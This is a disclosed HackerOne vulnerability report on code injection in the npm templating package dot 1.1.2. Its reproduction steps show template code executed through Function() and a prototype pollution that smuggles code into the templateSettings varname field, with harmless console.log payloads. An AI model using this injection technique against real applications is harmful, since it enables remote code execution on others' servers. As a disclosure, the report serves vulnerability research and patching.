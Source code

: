 # Code Injection Vulnerability in dot Package

## Report Details
- **Report ID**: 390929
- **URL**: https://hackerone.com/reports/390929
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-08-06T14:28:24.711Z
- **Disclosed**: 2019-04-03T10:16:35.485Z

## Reporter
- **Username**: cris_semmle
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a code injection vulnerability in dot.
It allows attackers to execute arbitrary JS code, especially when combined with a prototype pollution attack.

# Module

**module name:** dot
**version:** 1.1.2
**npm page:** `https://www.npmjs.com/package/dot`

## Module Description

Created in search of the fastest and concise JavaScript templating function with emphasis on performance under V8 and nodejs. It shows great performance for both nodejs and browsers.

doT.js is fast, small and has no dependencies.

## Module Stats

76,838 downloads in the last week

# Vulnerability

## Vulnerability Description

dot uses Function() to compile templates. this can be exploited by the attacker if she can control the template or if she can control the value set on Object.prototype.

## Steps To Reproduce:

a) The basic attack vector
```js
var doT = require("dot");
var tempFn = doT.template("<h1>Here is a sample template " +
    "{{=console.log(23)}}</h1>");
tempFn({})
```
b) in combination with a prototype pollution attack
 - create a folder "resources" and inside that a file called "mytemplate.dot" with the following content:
```html
<h1>Here is a sample template</h1>
```
- in the folder containing the resources folder, create and execute the following js file
```js
var doT = require("dot");
// prototype pollution attack vector
Object.prototype.templateSettings = {varname:"a,b,c,d,x=console.log(25)"};
// benign looking template compilation + application
var dots = require("dot").process({path: "./resources"});
dots.mytemplate();
```

Even though the template compilation + application looks safe, due to the prototype pollution, the attacker can execute arbitrary commands.

## Patch

N/A remove Function() call

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

The attacker can achieve code injection/RCE if she can control the template or if she can set arbitrary properties on Object.prototype. Using Function() with runtime computed values is rarely safe.

## Attachments
No attachments
